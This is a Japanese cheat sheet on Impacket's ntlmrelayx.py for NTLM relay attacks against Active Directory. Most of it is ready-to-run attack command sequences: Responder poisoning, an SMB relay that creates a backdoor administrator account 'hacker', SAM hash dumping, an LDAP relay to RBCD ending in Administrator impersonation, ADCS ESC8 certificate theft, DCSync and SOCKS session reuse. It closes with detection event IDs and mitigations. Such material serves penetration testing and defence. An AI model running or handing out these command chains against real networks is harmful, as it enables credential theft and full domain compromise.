




## TL;DR

`ntlmrelayx.py` は Impacket のツールで、被害者の **NTLM 認証を傍受し**、パスワードを一切知ることなく別のターゲットサービスへ転送・再生する。攻撃者は中間に位置し、被害者が攻撃者に対して認証を行い、攻撃者はその認証情報を使って別のホストやサービスにアクセスする。

ntlmrelayx の真価は、**リレー成功後に実行される自動攻撃**にある。SAM のダンプ、RBCD 委任の設定、LDAP 列挙、ADCS 証明書リクエストなどがその例だ。

---

## ntlmrelayx.py でできること

| 機能 | 詳細 |
|---|---|
| SMB 認証を SMB へリレー | ターゲット上でのコマンド実行・SAM ダンプ・共有列挙 |
| SMB/HTTP 認証を LDAP/LDAPS へリレー | コンピューターアカウントの作成・RBCD の設定・ドメインデータのダンプ・AD オブジェクトの変更 |
| ADCS HTTP エンドポイントへリレー | 被害者マシンアカウントの証明書をリクエスト (ESC8) |
| MSSQL へリレー | リレーされたユーザーとして SQL クエリや xp_cmdshell を実行 |
| HTTP/HTTPS へリレー | NTLM 認証をサポートする Web サービスへの汎用 HTTP リレー |
| マルチターゲットリレー | 同じ認証を複数のターゲットへ同時にリレー |
| SOCKS プロキシモード | リレーセッションを維持したまま他のツール (proxychains) で利用 |
| SAM の自動ダンプ | SMB リレー成功後に `-dump-hashes` |
| マシンアカウントの自動作成 | LDAP へのリレー時に `--add-computer` |
| RBCD の設定 | `--delegate-access` — Resource-Based Constrained Delegation の構成 |
| LAPS ダンプ | LDAP へのリレー時に `--dump-laps` |
| IPv6 サポート | IPv6 NTLM リレーシナリオにも対応 |

---

## ntlmrelayx.py でできないこと

| 制限事項 | 理由 |
|---|---|
| SMB 署名が有効なホストへのリレー | 署名済みセッションは再生できない — リレーは暗号学的に拒否される |
| 署名 + チャネルバインディングが有効な LDAP へのリレー | LDAP 署名または EPA (チャネルバインディング) がリレーを防ぐ |
| Kerberos 専用サービスへの NTLM リレー | Kerberos は NTLM ではない — まったく異なる認証プロトコル |
| 発信元ホストへの折り返しリレー | SMB のセルフリレーは MS08-068 以降ブロックされている (HTTP→SMB の一部エッジケースは残存) |
| 被害者が NTLM 認証を開始しない状態での動作 | 強制認証手法が必要 (Responder・PetitPotam・PrinterBug など) |
| MIC 付き NTLMv1 のリレー | 最新のターゲットは MIC 付き NTLMv2 を要求する — 一部の古い強制認証シナリオではこれが崩れる |
| あらゆる状況での静粛な攻撃実行 | LDAP リレー操作 (オブジェクト作成・属性変更) は監査ログに記録される |
| 被害者のパスワードのクラックや復元 | リレーされた認証情報はリアルタイムで使用されるだけで、平文が復元されることはない |

---

## 基本概念: NTLM リレーの仕組み



> 攻撃者は被害者のパスワードを一切見ない。NTLM 交換はそのまま転送される — 暗号による本人証明は実際の被害者によって生成されたものなので有効だ。

---

## 攻撃シナリオ 1: SMB リレー → コマンド実行

**前提条件:** ターゲットで SMB 署名が無効になっている (ワークステーションでは一般的、DC では少ない)



```bash
# Responder を起動 (SMB と HTTP は無効に — ntlmrelayx がこれらを処理する)
sudo responder -I eth0 -d -v --lm

# 単一ターゲットへリレーしてコマンド実行
ntlmrelayx.py -t smb://10.10.10.50 -smb2support -c "net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"

# リレーして SAM ハッシュをダンプ
ntlmrelayx.py -t smb://10.10.10.50 -smb2support --dump-hashes

# ファイルに記載された複数ターゲットへリレー
ntlmrelayx.py -tf targets.txt -smb2support --dump-hashes
```

---

## 攻撃シナリオ 2: LDAP リレー → RBCD → ドメイン完全掌握

**前提条件:** LDAP 署名が無効 (古い DC ではデフォルト)、攻撃者が DC を強制認証できる

これは最もインパクトの大きいリレーチェーンの一つだ。DC を強制認証させる → 別の DC の LDAP へリレー → RBCD を設定 → Domain Admin に成りすます。



```bash
# ステップ 1+2: 強制認証 + RBCD 設定付きで LDAP へリレー
ntlmrelayx.py -t ldap://dc2.corp.local --delegate-access --add-computer

# ステップ 2 の出力:
# [*] Created machine account: evil$
# [*] Set msDS-AllowedToActOnBehalfOfOtherIdentity on DC1$

# ステップ 5: なりすまし用の TGS を取得
getST.py corp.local/evil$:'evil123' -spn cifs/dc1.corp.local -impersonate Administrator -dc-ip 10.10.10.100

# チケットを使用
export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass dc1.corp.local
```

---

## 攻撃シナリオ 3: ADCS ESC8 — HTTP エンロールメントへのリレー

**前提条件:** ADCS Web Enrollment (`/certsrv`) が EPA なしで動作しており、マシンアカウントがテンプレートへのエンロール権限を持つ



```bash
# ADCS エンロールメントをターゲットにしてリレーを開始
ntlmrelayx.py -t http://ca.corp.local/certsrv/certfnsh.asp --adcs --template DomainController

# リレー後、base64 エンコードされた証明書が得られる。デコードして使用:
# base64 証明書 → .pfx に変換後:
gettgtpkinit.py -pfx-base64 <base64> corp.local/dc1$ dc1.ccache
export KRB5CCNAME=dc1.ccache

# UnPAC-the-hash で NT ハッシュを取得
getnthash.py -key <AS-REP enc key> corp.local/dc1$

# または直接 DCSync
secretsdump.py -just-dc corp.local/dc1$@dc1.corp.local -hashes :<NT_HASH>
```

---

## SOCKS モード — セッションを維持する

SOCKS モードはリレーセッションを開いたままにし、proxychains 経由でどのツールからでも使えるようにする。

```bash
# SOCKS モードでリレーを開始
ntlmrelayx.py -tf targets.txt -smb2support -socks

# 別のターミナルで — アクティブな SOCKS セッションを一覧表示
ntlmrelayx> socks

# セッションを proxychains で使用
proxychains secretsdump.py corp.local/victim@10.10.10.50 -no-pass
proxychains smbclient.py //10.10.10.50/C$ -no-pass
```

---

## SMB 署名の確認

リレー攻撃を実行する前に、SMB 署名が不要なホストを特定する:

```bash
# ホストリストに対して署名を確認
nmap --script smb2-security-mode -p 445 -iL hosts.txt

# CME を使用
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets_no_signing.txt

# netexec を使用
netexec smb 10.10.10.0/24 --gen-relay-list targets_no_signing.txt
```

`Message signing enabled but not required` と表示されるホストが有効なリレーターゲットだ。

---

## 主要オプション

| フラグ | 説明 |
|---|---|
| `-t <target>` | 単一のリレーターゲット (例: `smb://10.0.0.1`、`ldap://dc.corp.local`) |
| `-tf <file>` | ターゲットのファイル |
| `-smb2support` | SMBv2 サポートを有効化 |
| `-c "<cmd>"` | SMB リレー後に実行するコマンド |
| `--dump-hashes` | SMB リレー後に SAM ハッシュをダンプ |
| `--delegate-access` | LDAP リレー後に RBCD を設定 |
| `--add-computer [name]` | LDAP リレー経由で新しいコンピューターアカウントを作成 |
| `--adcs` | ADCS ESC8 モード — 証明書をリクエスト |
| `--template <name>` | リクエストする証明書テンプレート |
| `--dump-laps` | LDAP リレー経由で LAPS パスワードをダンプ |
| `-socks` | SOCKS プロキシモードを有効化 |
| `-6` | IPv6 を有効化 |
| `--remove-mic` | NTLM メッセージから MIC を削除 (一部のリレーシナリオで必要) |

---

## 検出と防御

### ブルーチームの指標

| イベント ID | ソース | 確認すべき内容 |
|---|---|---|
| 4624 | Security | 予期しないホストからのタイプ 3 ネットワークログオン |
| 4741 | Security | コンピューターアカウントの作成 (RBCD 設定) |
| 5136 | Security | AD オブジェクトの変更 — `msDS-AllowedToActOnBehalfOfOtherIdentity` を監視 |
| 4886 | Security | 証明書のリクエスト (ADCS) — リクエスト元 IP がアカウントと一致するか確認 |

### 緩和策

```powershell
# 全ホストで SMB 署名を有効化 (SMB リレーを防止)
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force

# DC で LDAP 署名を有効化
# GPO: コンピューターの構成 → Windows の設定 → セキュリティの設定 →
#      ローカル ポリシー → セキュリティ オプション →
#      "ドメイン コントローラー: LDAP サーバー署名要件" → 署名が必要

# LDAP チャネルバインディングを有効化 (NTLM 経由の LDAP リレーを防止)
# DC で LdapEnforceChannelBinding = 2 に設定
reg add "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" /v LdapEnforceChannelBinding /t REG_DWORD /d 2 /f

# 可能な限り NTLM を無効化 (Kerberos を使用)
# GPO: ネットワーク セキュリティ: NTLM を制限する: 受信 NTLM トラフィック → すべてのアカウントを拒否
```

- 全ホストで **SMB 署名**を有効化 (単一の緩和策として最もインパクトが大きい)
- 全 DC で **LDAP 署名 + チャネルバインディング**を有効化
- ADCS Web Enrollment で **EPA (Extended Protection for Authentication)** を有効化
- **Microsoft Defender for Identity (MDI)** を導入 — リレーパターンと RBCD 悪用を検出
- Kerberos が利用可能な場合は **NTLM** を制限または無効化

---

## 参考資料

- [Impacket — ntlmrelayx.py ソースコード](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [byt3bl33d3r — NTLM リレーの実践的ガイド](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
- [MITRE ATT&CK — T1557.001 LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/)
- [Dirk-jan Mollema — ESC8 リレー攻撃](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
